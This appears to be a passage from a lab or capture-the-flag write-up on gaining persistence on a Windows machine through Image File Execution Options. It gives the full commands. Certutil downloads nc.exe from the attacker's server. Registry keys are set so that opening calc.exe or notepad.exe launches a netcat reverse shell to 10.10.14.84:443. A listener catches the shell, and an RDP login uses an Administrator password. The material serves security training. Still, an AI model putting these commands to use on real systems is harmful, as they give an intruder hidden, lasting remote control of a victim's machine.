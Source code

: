 <img src="{{ site.img_path }}/blue_writeup/Blue_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I continue my practice of setting up **persistence** on Windows machines, now I am going to try to modify the **Windows registry** to use the **[Image File Execution Options (IFEO)](https://securityblueteam.medium.com/utilizing-image-file-execution-options-ifeo-for-stealthy-persistence-331bc972554e){:target="_blank"}** feature for developers and when I run a legitimate **Windows binary** it will execute a command that I set up to get a **Reverse Shell** with `nc.exe`. First I am going to create a copy of the Windows calculator `calc.exe`, since it is the binary I am going to use, then I transfer `nc.exe` to the target machine and I only have to modify the Windows registry. To test that everything works correctly, I open with `nc` the port **443** to wait for the remote connection and I connect by **RDP** with `rdesktop`, then I can open the calculator and I can have access to the box again. I can also choose another binary that some user uses regularly, like `notepad.exe`, and perform a similar procedure to the one already done.


> **Victime Machine**:

```cmd
# 6th Persistence Method
cd C:\Windows\System32
copy calc.exe _calc.exe
dir *calc*
cd C:\Windows\Temp\privesc
```

> **Attacke Machine**:

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/nc.exe
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\temp\privesc\nc.exe -e cmd 10.10.14.84 443" /f
```

> **Attacker Machine**:

```bash
rdesktop 10.129.97.111 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -d WORKGROUP
sudo rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
# Choosing another binary
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "c:\windows\temp\privesc\nc.exe -e C:\windows\system32\cmd.exe 10.10.14.84 443"
```
